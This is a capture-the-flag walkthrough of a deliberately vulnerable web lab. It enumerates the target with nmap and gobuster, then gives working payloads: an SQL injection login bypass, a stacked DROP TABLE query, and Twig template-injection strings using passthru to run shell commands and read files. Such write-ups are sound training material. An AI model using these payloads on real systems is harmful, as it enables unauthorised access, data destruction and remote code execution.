

Description
Can you utilise your web pen-testing skills to safeguard the event from any injection attack?
This room is the last from Injection Attacks module, so be sure to finish the rest of the module before tackling this box.
1 Enumeration
1.1 Nmap scan
Let’s start enumeration by running an nmap scan (-sV - service version detection; -sC - enables most common scripts; -p- - scan all ports).
$ nmap -sV -sC -p- 10.10.152.215
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-21 22:15 CEST
Nmap scan report for 10.10.152.215
Host is up (0.053s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 d3:13:d6:56:06:db:b0:41:55:db:d5:3d:36:60:19:e9 (RSA)
| 256 92:93:9e:aa:fc:ec:18:82:1e:4c:d1:07:2c:b9:0a:80 (ECDSA)
|_ 256 19:7b:40:56:44:d4:10:86:35:aa:16:7d:1e:1d:8f:2f (ED25519)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Injectics Leaderboard
| http-cookie-flags:
| /:
| PHPSESSID:
|_ httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernelAs we can see there are 2 open ports: SSH and HTTP. Let’s enumerate the HTTP server using Gobuster.
1.2 Gobuster scan
I will use following parameters:
- -x - scanning for specific file extensions
- -u - URL
- -w - wordlist
- -t - number of concurrent threads (faster scanning)
- -b - blacklisting HTTP status codes (404,403)
gobuster dir -x txt,php,html,js,json -u http://10.10.28.40 -w /usr/share/wordlists/dirb/big.txt -t 32 -b 404,403
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://10.10.28.40
[+] Method: GET
[+] Threads: 32
[+] Wordlist: /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes: 404,403
[+] User Agent: gobuster/3.6
[+] Extensions: php,html,js,json,txt
[+] Timeout: 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/composer.json (Status: 200) [Size: 48]
/conn.php (Status: 200) [Size: 0]
/css (Status: 301) [Size: 308] [--> http://10.10.28.40/css/]
/dashboard.php (Status: 302) [Size: 0] [--> dashboard.php]
/flags (Status: 301) [Size: 310] [--> http://10.10.28.40/flags/]
/functions.php (Status: 200) [Size: 0]
/index.php (Status: 200) [Size: 6588]
/javascript (Status: 301) [Size: 315] [--> http://10.10.28.40/javascript/]
/js (Status: 301) [Size: 307] [--> http://10.10.28.40/js/]
/login.php (Status: 200) [Size: 5401]
/logout.php (Status: 302) [Size: 0] [--> index.php]
/phpmyadmin (Status: 301) [Size: 315] [--> http://10.10.28.40/phpmyadmin/]
/script.js (Status: 200) [Size: 1088]
/vendor (Status: 301) [Size: 311] [--> http://10.10.28.40/vendor/]
Progress: 122814 / 122820 (100.00%)
===============================================================
Finished
===============================================================To summarize the scan, we’ve got composer.json which is a file of Composer - dependency manager for PHP, some PHP files, flags and vendor directories, phpmyadmin/ directory - tool that facilitates database management, script.js and other typical directories.
1.3 composer.json
Project uses twig which is a PHP template engine used in Symfony framework.
1.4 index.php
There is nothing interesting here, so let’s check the source code.
<!-- Website developed by John Tim - dev@injectics.thm-->
<!-- Mails are stored in mail.log file-->
<!-- Bootstrap JS and dependencies -->There is a comment at the end of the file. It says mails are stored in mail.log file.
1.5 mail.log
From: dev@injectics.thm
To: superadmin@injectics.thm
Subject: Update before holidays
Hey,
Before heading off on holidays, I wanted to update you on the latest changes to the website. I have implemented several enhancements and enabled a special service called Injectics. This service continuously monitors the database to ensure it remains in a stable state.
To add an extra layer of safety, I have configured the service to automatically insert default credentials into the `users` table if it is ever deleted or becomes corrupted. This ensures that we always have a way to access the system and perform necessary maintenance. I have scheduled the service to run every minute.
Here are the default credentials that will be added:
| Email | Password |
|---------------------------|-------------------------|
| superadmin@injectics.thm | superSecurePasswd101 |
| dev@injectics.thm | devPasswd123 |
Please let me know if there are any further updates or changes needed.
Best regards,
Dev Team
dev@injectics.thmIn summary, if we delete the users table, default credentials will be automatically inserted.
1.6 login.php
From the index page we can navigate to login.php.  The button on the bottom redirects as to new file called adminLogin007.php. Unfortunately we can’t login with default credentials.
The button on the bottom redirects as to new file called adminLogin007.php. Unfortunately we can’t login with default credentials.  If we check source of the login.php, we will find that script.js (file we found during gobuster scan) is used here, so let’s examine it.
If we check source of the login.php, we will find that script.js (file we found during gobuster scan) is used here, so let’s examine it.
1.7 script.js
$("#login-form").on("submit", function(e) {
e.preventDefault();
var username = $("#email").val();
var password = $("#pwd").val();
const invalidKeywords = ['or', 'and', 'union', 'select', '"', "'"];
for (let keyword of invalidKeywords) {
if (username.includes(keyword)) {
alert('Invalid keywords detected');
return false;
}
}
$.ajax({
url: 'functions.php',
type: 'POST',
data: {
username: username,
password: password,
function: "login"
},
dataType: 'json',
success: function(data) {
if (data.status == "success") {
if (data.auth_type == 0){
window.location = 'dashboard.php';
}else{
window.location = 'dashboard.php';
}
} else {
$("#messagess").html('<div class="alert alert-danger" role="alert">' + data.message + '</div>');
}
}
});
});We can see that jQuery (javascript library) is used here. Script overwrites the default behaviour of form element (preventDefault function, it means that the page won’t be refreshed), next it grabs values of username and password inputs. It checks for signs of SQL injection in the username. Next it sends a POST request to functions.php with credentials provided by the user. If they match with a record in the database user is directed to dashboard.php file.
2 Injecting SQL to login form
We can try injecting SQL in the form to authenticate to the dashboard. For this I will use ZAP - web app scanner. I will fuzz the username in order to find proper payload.  First click on the Firefox icon, in the browser navigate to login.php and submit some data in the form.
First click on the Firefox icon, in the browser navigate to login.php and submit some data in the form.  Now we can close the browser and come back to ZAP.
Now we can close the browser and come back to ZAP.  As we can see there is more stuff now. Let’s right click on the functions.php, go to Attack and Fuzz.
As we can see there is more stuff now. Let’s right click on the functions.php, go to Attack and Fuzz.  In a new window select the username value and click on Add…;
In a new window select the username value and click on Add…;  Click Add…
Click Add…  In Type choose File, and in File choose wordlist. To grab a wordlist we can search on Google for “Authentication bypass SQL injection wordlist” and choose the first one. For you convenience I will link it here.
In Type choose File, and in File choose wordlist. To grab a wordlist we can search on Google for “Authentication bypass SQL injection wordlist” and choose the first one. For you convenience I will link it here.  If you’ve done everything properly you should see new record in Fuzz Locations and the username value should be highlighted. Now you can click Start Fuzzer.
If you’ve done everything properly you should see new record in Fuzz Locations and the username value should be highlighted. Now you can click Start Fuzzer.  After the scan is done, click on the Response tab and in the Fuzzer tab scroll through records (using arrow keys) to find one which generates successful response. If you look in the Request tab you will see that this is the value we were looking for:
After the scan is done, click on the Response tab and in the Fuzzer tab scroll through records (using arrow keys) to find one which generates successful response. If you look in the Request tab you will see that this is the value we were looking for:
' OR 'x'='x'#;Although this payload successfully bypasses authentication, if you were to submit a request with this value in the browser, this message would appear.  This is a result of script.js file, which we examined earlier. To bypass it we would need to intercept login request after it was sent from browser and edit username value. It can be done using Burp, but this time I will just copy PHPSESSID Cookie from ZAP and paste it in my browser.
This is a result of script.js file, which we examined earlier. To bypass it we would need to intercept login request after it was sent from browser and edit username value. It can be done using Burp, but this time I will just copy PHPSESSID Cookie from ZAP and paste it in my browser.  You will find the cookie in the request tab.
You will find the cookie in the request tab.  In Firefox open Web Developer Tools (Ctrl+Shift+I), go to Storage and paste the value. Now refresh the page (Ctrl+R) or navigate to /dashboard.php and you should be in.
In Firefox open Web Developer Tools (Ctrl+Shift+I), go to Storage and paste the value. Now refresh the page (Ctrl+R) or navigate to /dashboard.php and you should be in.
3 Dev panel
There is a leaderboard, which we can edit. If we press any of the Edit buttons we will be redirected to /edit_leaderboard.php file, with corresponding rank and country GET parameters.
3.1 Injecting SQL in leaderboard edit page
Form above sends a POST request to the same file (edit_leaderboard.php) with parameters listed below:
- rank
- country
- gold
- silver
- bronze
We will again try SQLi, in this scenario we will stack queries using semi-colon. We will pass the payload in Gold variable and it will look like this:
;DROP TABLE users -- -The semi-colon ends previous query, next we use DROP TABLE users to delete the table, lastly we add a comment “--” on top of that we add space and an additional hyphen to ensure that comment works properly. More about that last part you will find here.
After sending this request we will see a message.  Once we’ve waited, log out and attempt to log back in at /adminLogin007.php using the default credentials we retrieved from mail.log. I’ll provide those credentials again below:
Once we’ve waited, log out and attempt to log back in at /adminLogin007.php using the default credentials we retrieved from mail.log. I’ll provide those credentials again below:
| Email | Password |
|---------------------------|-------------------------|
| superadmin@injectics.thm | superSecurePasswd101 |
| dev@injectics.thm | devPasswd123 |4 Admin panel
On login we were again redirected to dashboard.php, this time it looks different and we can see a first flag in center.  Also there are 3 buttons in the top right.
Also there are 3 buttons in the top right.  Let’s go to Profile.
Let’s go to Profile.
4.1 Editing profile
 Here we can edit profile details. If you recall on the dashboard there was a message “Welcome, admin!”, so probably the “first name” value is used to display the message. We can try to set it to a random value like test, and see if something changes in the dashboard.
Here we can edit profile details. If you recall on the dashboard there was a message “Welcome, admin!”, so probably the “first name” value is used to display the message. We can try to set it to a random value like test, and see if something changes in the dashboard. 
And here it is!
4.2 Server-Side Template Injection
In the composer.json file, we discovered that this app uses twig (a template engine), so we can try Server-Side Template Injection. We will inject malicious code into a template, which will be executed on the server. More about SSTI here. Let’s go back to Profile page, and test our idea using payload below:
{{7*7}} As we can see our payload was processed. Now let’s try something more exciting. If you check the THM page our goal is to read content of flags directory. In order to find payload which works you can use this PayloadsAllTheThings repository.
As we can see our payload was processed. Now let’s try something more exciting. If you check the THM page our goal is to read content of flags directory. In order to find payload which works you can use this PayloadsAllTheThings repository.
If we combine some payloads listed in the repo, we’ve got this:
{{['id','']|sort('passthru')}}Passing it into the form will result in this welcome message.  Now that we have PoC, we can search for flags directory.
{{['ls','']|sort('passthru')}} As we can see there is our flags directory, so let’s read everything inside this directory.
As we can see there is our flags directory, so let’s read everything inside this directory.
{{['cat flags/*','']|sort('passthru')}} And there is our last flag.
And there is our last flag.